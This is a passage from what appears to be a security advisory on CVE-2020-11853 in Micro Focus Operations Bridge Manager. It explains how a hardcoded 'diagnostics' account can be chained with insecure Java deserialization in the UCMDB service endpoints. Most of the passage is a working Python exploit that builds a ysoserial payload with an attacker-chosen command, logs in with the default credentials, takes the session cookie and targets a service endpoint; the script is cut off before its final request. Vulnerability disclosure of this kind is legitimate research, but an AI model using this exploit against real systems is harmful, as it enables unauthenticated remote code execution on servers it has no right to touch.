 While all the endpoints above implement different functionality and services, they can all be attacked in the same way. Each service class listed above might have a few or dozens of methods, and it is likely that many more (non-deserialization) vulnerabilities are lurking there.

If these flaws are chained with **Vulnerability #1**, an unauthenticated attacker can easily execute code in the OBM host. In order to achieve this, the following steps are necessary:

1. Authenticate to UCMDB with the *diagnostics* user as shown in **Snippet A** and **Snippet B**
2. Create a *ysoserial CommonsBeanutils1* payload with the desired command
3. Send the payload in the POST body to */ucmdb-ui/services/SecurityService* (or any other service endpoint listed above), together with the *LWSSO_COOKIE_KEY* obtained in step 1

The following Python code performs all steps in this chain:

```python
#!/usr/bin/python3
#
## Exploit for Micro Focus Operations Bridge Manager 2020.05 UCMDB Services Insecure Java Deserialization (CVE-2020-11853)
## By Pedro Ribeiro (pedrib@agileinfosec.co.uk | @pedrib1337) from Agile Information Security
#
import sys
import os
import requests

def usage():
    print("Usage: ./obmPwn.py <RHOST> <YSOSERIAL_JAR> <COMMAND>")
    exit(1)

if len(sys.argv) < 4:
    usage()

rhost = sys.argv[1]
ysoserial = sys.argv[2]
command = sys.argv[3]

if not os.path.exists(ysoserial):
    usage()

requests.packages.urllib3.disable_warnings()

print("[*] Generating ysoserial payload with command %s" % (command))
os.system("java -jar %s CommonsBeanutils1 '%s' > /tmp/payload.ser" % (ysoserial, command))

url_base = "https://%s:8443/ucmdb-ui" % (rhost)

url_login = url_base + "/cms/loginRequest.do;?customerID=1&isEncoded=false&userName=diagnostics&password=YWRtaW4=&ldapServerName=UCMDB"
print("[*] Authenticating to %s" % (url_login))
ses = requests.Session()
res = ses.post(url_login, verify=False)

auth = None
for cookie in res.cookies.items():
    if cookie[0] == "LWSSO_COOKIE_KEY":
        auth = cookie

if auth == None:
    print("[-] Failed to authenticate and obtain LWSSO_COOKIE_KEY")
    exit(1)
else:
    print("[+] We are now authenticated and obtained our LWSSO_COOKIE_KEY!")

# SecurityService is used here, but any of the other 37 endpoints can be used
url_pwn = url_base + "/services/SecurityService"
print("[*] Sending ysoserial payload to %s" % (url_pwn))
```